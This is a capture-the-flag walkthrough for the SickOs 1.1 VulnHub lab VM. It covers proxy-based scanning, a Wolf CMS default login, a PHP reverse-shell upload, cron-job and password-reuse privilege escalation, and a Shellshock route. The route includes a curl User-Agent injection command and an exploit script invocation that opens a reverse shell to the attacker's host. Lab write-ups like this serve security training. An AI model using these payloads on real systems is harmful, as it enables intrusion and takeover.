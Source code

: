 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

To find IP address of VM:

#### Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.11

#### Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.11
![](Assets/2.png)

> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto: Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128 
![](Assets/3.png)

> /cgi-bin/status > vulnerable to `ShellShock`

#### Burp proxy 192.168.1.11 : 3128  >> 192.168.1.11/robots.txt
![](Assets/4.png)

> `Wolfcms` directory

#### Login page >> admin:admin
![](Assets/5.png)

> Logged in

#### Add IP and port to php Reverse shell
![](Assets/6.png)

> Added my own IP and port

#### Shell upload
![](Assets/7.png)

> Uploaded php reverse shell

#### Nc -nvlp 4444 & visited url of shell
![](Assets/8.png)

> Got reverse shell

#### Visit /var/www/
![](Assets/9.png)

> `Wolfcms` directory and Read n Write permissions for `connect.py`

### Method 1: Using connect.py

#### Visit `cron.d`
![](Assets/10.png)

> Automated connect.py

#### Create payload with msfvenum 
![](Assets/11.png)

#### Echo payload to connect.py
![](Assets/12.png)

#### Nc -nvlp 7777
![](Assets/13.png)

> Got root

### Method 2: Using config.php

#### `Config.php`
![](Assets/14.png)

> Got password john@123

![](Assets/15.png)

> Got root

### Method 3: Using shellshock

#### Check if cmd works

`curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"`

![](Assets/16.png)

#### Searchsploit -m 34900.py
![](Assets/17.png)

> Downloaded shellshock exploit

#### Python Reverse shell

`Python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status`

![](Assets/18.png)

> Repeat Method 2

> Get root
